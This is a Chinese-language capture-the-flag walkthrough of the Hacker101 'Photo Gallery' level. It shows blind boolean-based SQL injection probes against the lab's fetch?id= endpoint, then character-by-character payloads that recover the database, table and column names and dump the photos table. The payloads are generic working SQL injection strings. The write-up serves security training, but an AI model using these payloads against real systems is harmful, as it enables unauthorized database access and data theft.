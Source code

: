 ```yaml
---
title: hacker101-photo gallery
date: 2019-07-04 10:50:55
tags: 
category: walkthrough
---
```

无回显的 Boolean 型 SQL 注入
<!-- more -->
# 测试
```
http://35.190.155.168/1a4eaa7b69/fetch?id=1 ==> 200
http://35.190.155.168/1a4eaa7b69/fetch?id=1' and 1=1-- ==> 500
http://35.190.155.168/1a4eaa7b69/fetch?id=1" and 1=1-- ==> 500
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and 1=1-- ==> 200
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and 1=2-- ==> 404
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and LENGTH(database())=1 -- => 404
...
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and LENGTH(database())=6 -- => 200

```

# 渗透
1. 找出当前表字段
```
http://35.190.155.168/1a4eaa7b69/fetch?id=1%20%20order%20by%201%23 => 200

and order by 1 #

当前表只有一个字段
```
2. 找出数据库名
```
select ascii(substring((select database()),[0-9],1))=[ascii码];
```

3. 找出表名
```
select table_name from information_schema.tables where table_schema="blog" limit 0,1 ; # 第一张表
select table_name from information_schema.tables where table_schema="blog" limit 1,1 ; # 第二张表
```

4. 找出用户名和密码
```
select ascii(substring((select user()),[0-9],1))=[ascii码];
```

# walkthrough 
## 直接使用 burp 进行测试,其请求的 url 构造如下
```
%20and%20(select%20ascii(substring((select%20database()),1,1)))=11--
```
![photo1](/postimg/photo1-1.PNG)
![photo1](/postimg/photo1-2.PNG)
![photo1](/postimg/photo1-3.PNG)
![photo1](/postimg/photo1-4.PNG)
![photo1](/postimg/photo1-5.PNG)

第一步结果得出数据库名为 `level5`

## 得出当前表名，其 url 构造如下
```
/91aa2fb1f2/fetch?id=2 and (select substring((select group_concat(table_name) from information_schema.tables where table_schema="level5"),1,1))="a" --
```

得出表名：albums,photos

# 构造字段名

```
/91aa2fb1f2/fetch?id=2 and (select substring((select group_concat(column_name) from information_schema.columns where table_name="albums"),2,1))="d" -- 
```
从 albums 得到 id, title
从 photos 得到 id, title,filename,parent

# dump 数据
首先查看要 dump 的数据有多大，使用 lenth
```sql
and (select length((select group_concat(id,title,parent) from photos)))=§d§ -- 
```
然后开始dump 数据
```
/91aa2fb1f2/fetch?id=2 and (select substring((select group_concat(title,filename,parent) from photos),§2§,1))="§d§" --
```